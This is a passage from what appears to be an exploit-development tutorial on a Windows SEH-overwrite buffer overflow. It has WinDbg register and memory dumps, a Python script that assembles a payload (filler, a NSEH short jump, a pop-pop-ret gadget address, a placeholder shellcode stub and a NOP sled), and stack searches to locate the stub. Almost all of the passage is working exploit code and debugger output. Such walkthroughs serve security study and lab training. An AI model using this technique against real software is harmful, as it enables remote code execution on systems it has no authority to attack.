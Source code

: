 Examine the memory before executing the jump to make sure we'll land in the desired buffer:

```
0:012> t
eax=77e06f82 ebx=01c4ba00 ecx=101576c0 edx=77e06fa0 esi=00000000 edi=00000000
eip=01c4ff56 esp=01c4b904 ebp=01c4b918 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
01c4ff56 eb06            jmp     01c4ff5e
0:012> dd 01c4ff5e - 0x06
01c4ff58  101576c0 43434343 43434343 43434343
01c4ff68  43434343 43434343 43434343 43434343
01c4ff78  43434343 43434343 43434343 43434343
01c4ff88  43434343 43434343 43434343 43434343
01c4ff98  43434343 43434343 43434343 43434343
01c4ffa8  43434343 43434343 43434343 43434343
01c4ffb8  43434343 43434343 43434343 43434343
01c4ffc8  43434343 43434343 43434343 43434343
```




## 6. Find a Region for the Shellcode

Add a shellcode stub to the script and break after the short jump over NSEH.

{% code title="sehof_shellcode_region.py" %}
```python
#!/usr/bin/env python3

size = 6000
shellcode_size = 600

shellcode  = LE(0xd34dc0d3)
shellcode += b'C' * (shellcode_size - len(shellcode))

exp  = LE(0x06eb9090)  # (NSEH) jmp +06
exp += LE(0x101576c0)  # (PPR) pop eax; pop ebx; ret
exp += b'\x90\x90'                # (NSEH) offset for the 'eb 06' part of the jmp instruction

filler = b'A' * (2499 - 4)
nop    = b'\x90' * (size - len(filler + exp + shellcode))

buf = filler + exp + shellcode + nop
print(f'buf({len(buf)}): filler({len(filler)}) -> exp({len(exp)}) -> shellcode({len(shellcode)}) -> nop({len(nop)})')

send(buf)
```
{% endcode %}

Search the stack memory to find the shellcode stub start address:

```
0:012> dd eip L1
01caff5e  d34dc0d3
0:012> !teb
TEB at 002d2000
    ExceptionList:        01cab90c
    StackBase:            01cb0000
    StackLimit:           01caa000
0:012> s -b 01caa000 01cb0000 d3 c0 4d d3 43 43 43 43 43 43 43 43
01cac856  d3 c0 4d d3 43 43 43 43-43 43 43 43 43 43 43 43  ..M.CCCCCCCCCCCC
01cadaae  d3 c0 4d d3 43 43 43 43-43 43 43 43 43 43 43 43  ..M.CCCCCCCCCCCC
01caed06  d3 c0 4d d3 43 43 43 43-43 43 43 43 43 43 43 43  ..M.CCCCCCCCCCCC
01caff5e  d3 c0 4d d3 43 43 43 43-43 43 43 43 43 43 43 43  ..M.CCCCCCCCCCCC
0:012> dd 01cac856 L96
```